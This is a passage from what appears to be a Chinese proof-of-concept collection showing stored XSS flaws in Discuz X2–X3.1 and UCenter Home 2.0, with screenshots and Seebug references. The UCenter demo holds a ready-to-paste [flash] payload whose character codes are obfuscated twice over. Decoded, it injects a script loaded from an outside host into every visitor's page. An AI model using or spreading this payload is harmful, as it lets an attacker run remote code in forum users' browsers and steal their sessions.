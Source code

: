 参考链接：https://www.seebug.org/vuldb/ssvid-93631
#### 演示7：DiscuzX3.1/X3/X2.5/X2 抢楼存在存储型XSS
在抢楼-奖励楼层处添加payload

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/42.png)

完成后触发xss

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/43.png)

参考链接：https://www.seebug.org/vuldb/ssvid-93620
#### 演示8：Ucenter Home 2.0及以下存储型XSS
在插入视频处，如发帖处的插入视频，设置如下payload: [flash]http://" onmouseover='document.body.innerHTML=String.fromCharCode(60,105,102,114,97,109,101,47,111,110,108,111,97,100,61,39,106,97,118,97,115,99,114,105,112,116,58,119,114,105,116,101,40,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,54,48,44,49,49,53,44,57,57,44,49,49,52,44,49,48,53,44,49,49,50,44,49,49,54,44,51,50,44,49,49,53,44,49,49,52,44,57,57,44,54,49,44,49,48,52,44,49,49,54,44,49,49,54,44,49,49,50,44,53,56,44,52,55,44,52,55,44,49,49,54,44,49,48,57,44,49,50,48,44,49,48,55,44,52,54,44,49,49,49,44,49,49,52,44,49,48,51,44,52,55,44,49,49,51,44,52,54,44,49,48,54,44,49,49,53,44,54,50,44,54,48,44,52,55,44,49,49,53,44,57,57,44,49,49,52,44,49,48,53,44,49,49,50,44,49,49,54,44,54,50,41,41,39,62)'[/flash]
完成后弹窗
